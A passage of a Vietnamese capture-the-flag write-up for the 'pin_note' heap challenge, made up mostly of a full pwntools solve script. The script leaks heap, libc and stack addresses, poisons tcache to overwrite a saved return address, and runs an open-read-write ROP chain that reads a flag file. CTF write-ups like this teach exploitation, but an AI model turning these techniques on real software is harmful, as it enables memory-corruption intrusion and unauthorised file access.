

Nên mình đã tìm bằng lệnh này:

`python3 -c "print(hex(open('./libc.so.6', 'rb').read().find(b'\x0f\x05\xc3')))"`



Vậy giờ đã đủ gadget, ta sẽ tiến hành overwrite `ret_addr`:

```python
add_note(1,0x40)  #idx5
add_note(1,0x40)  #idx6 
add_note(1,0x40)  #idx7 

add_note(0,0x40) #idx3
add_note(0,0x40) #idx4
add_note(0,0x500) #idx5

del_note(1,7)
del_note(1,6)

payload = b'a'*0x40
payload += p64(0x40)
payload += p64(0x41)
payload += p64(rbp_addr ^ (heap_base+0x990)>>12)
edit_note(1,5,payload)

add_note(1,0x40)  #idx6
add_note(1,0x40)  #idx7 (ret)

add_note(0,0x50) #idx6
add_note(0,0x500) #idx7

POP_RAX = libc.address + 0x0000000000045eb0
POP_RDI = libc.address + 0x000000000002a3e5
POP_RSI = libc.address + 0x000000000002be51
POP_RCX = libc.address + 0x000000000003d1ee
POP_RDX_RBX = libc.address + 0x00000000000904a9
SYSCALL = libc.address + 0x91316
path_flag_addr = heap_base+0x990


#STAGE 4: overwrite RET with ORW func
path_flag = b"/mnt/d/flag"
edit_note(1,6,path_flag)

payload = flat(
    rbp_addr - 0x300,   
    POP_RAX, 2,         
    POP_RDI, path_flag_addr,
    POP_RSI, 0,         
    POP_RDX_RBX, 0, 0, 
    SYSCALL
)

payload += flat(
    
    POP_RAX, 0,         
    POP_RDI, 3,         
    POP_RSI, heap_base + 0x1000, 
    POP_RDX_RBX, 0x100, 0, 
    SYSCALL,


    POP_RAX, 1,        
    POP_RDI, 1,         
    POP_RSI, heap_base + 0x1000,
    POP_RDX_RBX, 0x100, 0,
    SYSCALL
)
edit_note(1,7,payload)
# GDB()
sla("$> ", b'exit')
```
- Tại sao mình lại malloc chunk tại `rbp_addr` thay vì `ret_addr`?. Bởi khi malloc chunk từ tcache bin, chương trình sẽ kiểm tra địa chỉ có chia hết cho 16 hay không. Nếu không thì sẽ báo lỗi và kết thúc chương trình. 



- Vì vậy để tạo chunk thành công, mình sẽ truyền vào địa chỉ của `$rbp`. 


### Solve script

``` python
#!/usr/bin/python3

from pwn import *

exe = ELF("./pin_note_patched")
libc = ELF("./libc.so.6")

context.binary = exe

s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())

rs   = lambda data: r.send(data)
rsa  = lambda msg, data: r.sendafter(msg, data)
rsl  = lambda data: r.sendline(data)
rsla = lambda msg, data: r.sendlineafter(msg, data)
rsn  = lambda num: r.send(str(num).encode())
rsna = lambda msg, num: r.sendafter(msg, str(num).encode())
rsln = lambda num: r.sendline(str(num).encode())
rslna = lambda msg, num: r.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b* 0x555555554000 + 0x0000000000003A0D
        b* 0x555555554000 + 0x000000000000312C
        b* 0x555555554000 + 0x0000000000003399
                
        c
        ''')
        # gdb.attach(r, gdbscript='''
        
        # b* 0x555555554000 + 0x0000000000003A0D
        # b* 0x555555554000 + 0x000000000000312C
        # c
        # ''')
        sleep(1)

# b* 0x555555557728
#         b* 0x55555555712c
#         b* 0x5555555574f0
def add_note(size):
    sla('$> ', b'add')
    slna('Enter size of note: ',size)

if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
    r = process([exe.path])


def add_note(ch,size):
    if ch:
        sla("$> ", b'add')
        slna("Enter size of note: ", size)
    else:
        rsla("$> ", b'add')
        rslna("Enter size of note: ", size)
def edit_note(ch,idx,content):
    size = len(content)
    if ch:
        sla("$> ", b'edit')
        slna("Enter index of note to edit: ",idx)
        slna("Enter newsize: ", size)
        sla("Do you confirm to editing this note? (y/n):", b'y')
        sa("Enter new content for note: ",content)
    else:
        rsla("$> ", b'edit')
        rslna("Enter index of note to edit: ",idx)
        rslna("Enter newsize: ", size)
        rsla("Do you confirm to editing this note? (y/n):", b'y')
        rsa("Enter new content for note: ",content)
def del_note(ch,idx):
    if ch:
        sla("$> ", b'del')
        slna("Enter index of note to delete: ",idx)
    else:
        rsla("$> ", b'del')
        rslna("Enter index of note to delete: ",idx)
def show_note(ch,idx):
    if ch:
        sla("$> ", b'show')
        slna("Enter index of note to show: ",idx)
    else:
        rsla("$> ", b'show')
        rslna("Enter index of note to show: ",idx)


slna("select: ",1)
sla("9 characters):", b'MImi')


rslna("select: ",1)
rsla("9 characters):", b'MImi')


## Bypass rand to 2 process have same file name 
slna("select: ",2)
rslna("select: ",2)

### STAGE 1: LEAK HEAP
add_note(1,0x10)
add_note(1,0x20)

add_note(0,0x500)
sleep(1)
del_note(1,1)
edit_note(1,0,b'a'*0x20)
show_note(1,0)
p.recvuntil(b'a'*0x20)
heap_base = u64(p.recv(5)+b'\0\0\0')<<12
info("heap base: "+hex(heap_base))
payload = b'a'*0x18
payload += p64(0x31)
edit_note(1,0,payload)

### STAGE 2: LEAK LIBC
add_note(1,0x30) #idx1
add_note(1,0x500) 
add_note(1,0x30)

add_note(0,0x500) #idx1
del_note(1,2)

edit_note(1,1,b'a'*0x40)

show_note(1,1)
p.recvuntil(b'a'*0x40)
libc_leak = u64(p.recv(6)+b'\0\0')
info("libc_leak: "+hex(libc_leak))
libc.address = libc_leak - 0x21ace0
info("libc_base: "+ hex(libc.address))
environ_addr = libc.sym['environ']
info("environ: "+hex(environ_addr))

payload = b'a'*0x38
payload += p64(0x511)
edit_note(1,1,payload)


### STAGE 3: LEAK_STACK
add_note(1,0x500) #idx2
add_note(1,0x30)  #idx4

add_note(0,0x600) #idx2

del_note(1,4)
del_note(1,3)

payload = b'a'*0x500
payload += p64(0x510)
payload += p64(0x41)
payload += p64(environ_addr ^ (heap_base+0x8c0)>>12)
GDB()
edit_note(1,2,payload)

add_note(1,0x30)  #idx3
add_note(1,0x30)  #idx4 (environ)

show_note(1,4)
p.recvuntil(b"Content: ")
stack_leak = u64(p.recv(6)+b'\0\0')
info("stack leak: "+hex(stack_leak))
rbp_addr = stack_leak - 0x1b8
info("rbp_addr: "+ hex(rbp_addr))


add_note(1,0x40)  #idx5
add_note(1,0x40)  #idx6 
add_note(1,0x40)  #idx7 

add_note(0,0x40) #idx3
add_note(0,0x40) #idx4
add_note(0,0x500) #idx5

del_note(1,7)
del_note(1,6)

payload = b'a'*0x40
payload += p64(0x40)
payload += p64(0x41)
payload += p64(rbp_addr ^ (heap_base+0x990)>>12)
edit_note(1,5,payload)

add_note(1,0x40)  #idx6
add_note(1,0x40)  #idx7 (ret)

add_note(0,0x50) #idx6
add_note(0,0x500) #idx7

POP_RAX = libc.address + 0x0000000000045eb0
POP_RDI = libc.address + 0x000000000002a3e5
POP_RSI = libc.address + 0x000000000002be51
POP_RCX = libc.address + 0x000000000003d1ee
POP_RDX_RBX = libc.address + 0x00000000000904a9
SYSCALL = libc.address + 0x91316
path_flag_addr = heap_base+0x990


#STAGE 4: overwrite RET with ORW func
path_flag = b"/mnt/d/flag"
edit_note(1,6,path_flag)

payload = flat(
    rbp_addr - 0x300,   
    POP_RAX, 2,         
    POP_RDI, path_flag_addr,
    POP_RSI, 0,         
    POP_RDX_RBX, 0, 0, 
    SYSCALL
)

payload += flat(
    
    POP_RAX, 0,         
    POP_RDI, 3,         
    POP_RSI, heap_base + 0x1000, 
    POP_RDX_RBX, 0x100, 0, 
    SYSCALL,


    POP_RAX, 1,        
    POP_RDI, 1,         
    POP_RSI, heap_base + 0x1000,
    POP_RDX_RBX, 0x100, 0,
    SYSCALL
)
edit_note(1,7,payload)
# GDB()
sla("$> ", b'exit')

# gdb.attach(p)
p.interactive()

# heap leak => libc leak =>(tcache poisioning) malloc to environ => leak stack => change ret_addr =>open read write

```

